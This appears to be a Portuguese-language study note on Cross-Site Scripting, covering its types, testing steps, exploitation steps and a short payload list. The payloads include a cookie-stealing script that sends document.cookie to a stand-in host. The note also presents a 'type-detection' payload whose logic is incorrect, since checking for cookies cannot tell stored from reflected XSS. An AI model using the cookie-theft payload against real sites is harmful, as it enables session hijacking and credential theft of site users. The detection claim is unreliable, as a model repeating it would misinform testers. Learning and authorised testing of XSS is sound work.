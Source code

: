 ```yaml
---
folder: "[[Vulnerabilities]]"
---
```

**O que é Cross-Site Scripting (XSS)?**

  A Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite que um atacante injete código malicioso em uma página web, permitindo que o código seja executado pelo navegador do usuário. Isso ocorre quando um site não valida adequadamente as entradas de usuário e as utiliza para gerar conteúdo dinâmico.

  


**Como funciona?**

- Aqui está um exemplo de como funciona a XSS:
- Um usuário envia uma solicitação HTTP para um site, incluindo uma entrada maliciosa, como um parâmetro de consulta ou um campo de formulário.
- O site processa a solicitação e utiliza a entrada do usuário para gerar conteúdo dinâmico, como uma página HTML.
- Se o site não validar adequadamente a entrada do usuário, o código malicioso pode ser injetado na página e executado pelo navegador do usuário.

**Tipos de XSS**

- Existem três tipos principais de XSS:
- Stored XSS: O código malicioso é armazenado no servidor e é executado quando outros usuários acessam a página.
- Reflected XSS: O código malicioso é refletido de volta para o usuário na forma de uma página HTML.
- DOM-based XSS: O código malicioso é executado no lado do cliente, modificando o DOM (Document Object Model) da página.

**Como testar se um site é vulnerável?**

- Para testar se um site é vulnerável à XSS, você pode seguir os seguintes passos:
- Identifique os pontos de entrada do site, como campos de formulário, parâmetros de consulta e cabeçalhos HTTP.
- Insira entradas maliciosas nos pontos de entrada identificados, como código JavaScript (por exemplo, <script>alert('XSS')</script>).
- Verifique se o site executa o código malicioso e se retorna alguma saída.
- Se o site executar o código malicioso, é provável que seja vulnerável à XSS.

**Como explorar essa vulnerabilidade?**

- Para explorar a vulnerabilidade de XSS, você pode seguir os seguintes passos:
- Identifique o tipo de XSS que está sendo explorado (Stored, Reflected ou DOM-based).
- Construa um payload malicioso que execute uma ação desejada (por exemplo, roubar credenciais, redirecionar para um site falso, etc.).
- Insira o payload malicioso no ponto de entrada vulnerável.
- Verifique se o payload foi executado com sucesso.

**Payloads:**

- Aqui estão alguns exemplos de payloads que podem ser utilizados para explorar a vulnerabilidade de XSS:
- **<script>alert('XSS')</script>**: Executa um alerta JavaScript com a mensagem "XSS".
- **<script>document.location='http://example.com'</script>**: Redireciona o usuário para um site falso.
- **<script>var img = new Image(); img.src = '**[**http://example.com/steal.php?cookie=**](http://example.com/steal.php?cookie=)**' + document.cookie;</script>**: Rouba as credenciais do usuário e envia para um servidor remoto.

**Payload para identificar o tipo de XSS:**

- Aqui está um exemplo de payload que pode ser utilizado para identificar o tipo de XSS:



1<script>
2 if (document.cookie) {
3 alert('Stored XSS');
4 } else {
5 alert('Reflected XSS ou DOM-based XSS');
6 }
7</script>

  

  Ou:

  

  [**http://example.com/index.php?**](http://.)q=<script>%20if%20(document.cookie)%20{%20alert(%27Stored%20XSS%27);%20}%20else%20{%20alert(%27Reflected%20XSS%20ou%20DOM-based%20XSS%27);%20}%20</script>




  Este payload verifica se o código malicioso é armazenado no servidor (Stored XSS) ou se é refletido de volta para o usuário (Reflected XSS ou DOM-based XSS).


**Observações:**

- É importante lembrar que a exploração de vulnerabilidades de segurança deve ser feita de forma ética e responsável.
- É fundamental respeitar as leis e regulamentações aplicáveis e não causar danos a terceiros.
- É recomendável que os testes de segurança sejam realizados em ambientes controlados e com a permissão dos proprietários do site.

